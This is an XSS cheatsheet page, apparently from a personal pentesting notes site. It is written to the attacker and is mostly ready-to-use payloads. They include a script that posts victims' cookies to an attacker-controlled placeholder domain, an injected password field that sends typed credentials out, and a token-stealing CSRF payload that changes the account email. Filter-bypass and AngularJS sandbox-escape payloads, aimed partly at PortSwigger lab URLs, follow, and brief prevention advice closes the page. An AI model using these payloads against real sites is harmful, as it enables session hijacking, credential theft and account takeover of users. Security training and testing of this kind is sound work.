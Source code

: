 ```yaml
---
title: "XSS attack"
subtitle: ""
draft: false
author: "Hato0"
description: "XSS cheatsheet"
Last Update: <time datetime="{{ .Page.Lastmod.Format "Mon Jan 10 17:13:38 2020 -0700" }}" class="text-muted">  {{ $.Page.Lastmod.Format "January 02, 2006" }} </time>
Date: 2022-06-20

tags: ["web", "penetest", "xss"]
categories: ["Penetest - Web"]

hiddenFromHomePage: true
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# Cross-site scripting

Cross-site scripting is used to inject malicious javascript code to user browser. 

This attack can lead to a total control of the application in use. More details and specific stuff can be found [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

## Basics


- Exploiting cross-site scripting to steal cookies
	This part represent the principal use of XSS. Web apps usually use cookies to save and remember sessions. 
    
    In that way, this attack get the cookie in question and send it back to your own domain so you can easily capture it. 
	
	There is comon security system used to avoid this attack:
	-   The victim might not be logged in.
	-   Many applications hide their cookies from JavaScript using the `HttpOnly` flag.
	-   Sessions might be locked to additional factors like the user's IP address.
	-   The session might time out before you're able to hijack it.
	
	Here is an example of that type of XSS:
        {{< highlight javascript "lineNos=false" >}}<script> 
            fetch('https://MYDOMAIN', {  method: 'POST',  mode: 'no-cors',  body:document.cookie  });  
        </script>
        {{< /highlight >}}


- Exploiting cross-site scripting to capture passwords
	
	This technique can be use because of stupid password managers and auto-fill option. Basicly the only thing you have to do is to inject an option in the input label to read data when they are enter. Here is an example : 
	
    {{< highlight html "lineNos=false" >}}
    <input name=username id=username>  
    <input type=password name=password onchange="
    if(this.value.length)fetch('https://MYDOMAIN',{  
    method:'POST',  
    mode: 'no-cors',  
    body:username.value+':'+this.value  
    });">
    {{< /highlight >}}


- Exploiting XSS to perform CSRF

	XSS can also be used to perform CSRF (more details in the next section). Here is an example payload working with token protection enable: 
	
	{{< highlight javascript "lineNos=false" >}}
	<script>  
	var req = new XMLHttpRequest();  
	req.onload = handleResponse;  
	req.open('get','/my-account',true);  
	req.send();  
	function handleResponse() {  
	 var token = this.responseText.match(/name="csrf" value="(\\w+)"/)\[1\];  
	 var changeReq = new XMLHttpRequest();  
	 changeReq.open('post', '/my-account/change-email', true);  
	 changeReq.send('csrf='+token+'&email=test@test.com')  
	};  
	</script>
	{{< /highlight >}}


## Reflected XSS 

Reflected XSS is the simplest variety of cross-site scripting. The application receive data in an HTTP request and includes that data within the immediate response in an unsafe way. Nothing is stored in the webapp and the trigger only works when the user click on the link or whatever with this particular payload include. Here are some examples : 

- HTML context with nothing encoded

	{{< highlight javascript "lineNos=false" >}}
	<script>alert(1)</script>
	{{< /highlight >}}
 
 
- HTML context with most tags and attributes blocked

	{{< highlight html "lineNos=false" >}}
	<iframe src="https://WEBSITE/?search="><body onresize=alert(document.cookie)>" onload=this.style.width='100px'>
	{{< /highlight >}}


- HTML context with all tags blocked except custom ones

	{{< highlight javascript "lineNos=false" >}}
	<script>  
	location = 'https://WEBSITE/?search=<xss+id=x+onfocus=alert(document.cookie) tabindex=1>#x';  
	</script>
	{{< /highlight >}}


- Event handlers and href attributes blocked

	{{< highlight javascript "lineNos=false" >}}
	https://WEBSITE/?search=<svg><a><animate+attributeName=href+values=javascript:alert(1)+/><text+x=20+y=20>Click me</text></a>
	{{< /highlight >}}

- Some SVG markup allowed

	{{< highlight javascript "lineNos=false" >}}
	https://WEBSITE/?search="><svg><animatetransform onbegin=alert(1)>
	{{< /highlight >}}


- Reflected XSS with AngularJS sandbox escape without strings

	{{< highlight javascript "lineNos=false" >}}
	https://your-lab-id.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d\[\].join;\[1\]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
	{{< /highlight >}}
	
	
- Reflected XSS with AngularJS sandbox escape and CSP

	{{< highlight html "lineNos=false" >}}
	<script>  
	location='https://your-lab-id.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x';  
	</script>
	{{< /highlight >}}
	

## Stored XSS 
Stored XSS is an injection in the actual page by any way (message, template injection, input, ...). Here are some examples: 

- Stored XSS into anchor href attribute with double quotes HTML-encoded

	{{< highlight javascript "lineNos=false" >}}
	javascript:alert('XSS')
	{{< /highlight >}}
	 
	 
- Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

	{{< highlight javascript "lineNos=false" >}}
	&apos;-alert(1)-&apos;
	{{< /highlight >}}
	

## DOM XSS 

DOM Based XSS is an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment” in the victim’s browser used by the original client side script, so that the client side code runs in an “unexpected” manner. That is, the page itself (the HTTP response that is) does not change, but the client side code contained in the page executes differently due to the malicious modifications that have occurred in the DOM environment.

As the vulnaribility is app specific, there will be no example and you will have to use your brain. 


## Escape CSP

CSP or 'Content Security Policy ' is a protection to XSS, clickjacking, code injection and more. CSP can be found on the server answer. You can use a [checker](https://csp-evaluator.withgoogle.com/) to dig in what you have in front of you. As the topic is large again here is a [link](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass) to understand what the checker gave you 


## How to prevent them 

-   **Filter input on arrival.** At the point where user input is received, filter as strictly as possible based on what is expected or valid input.
-   **Encode data on output.** At the point where user-controllable data is output in HTTP responses, encode the output to prevent it from being interpreted as active content. Depending on the output context, this might require applying combinations of HTML, URL, JavaScript, and CSS encoding.
-   **Use appropriate response headers.** To prevent XSS in HTTP responses that aren't intended to contain any HTML or JavaScript, you can use the `Content-Type` and `X-Content-Type-Options` headers to ensure that browsers interpret the responses in the way you intend.
-   **Content Security Policy.** As a last line of defense, you can use Content Security Policy (CSP) to reduce the severity of any XSS vulnerabilities that still occur.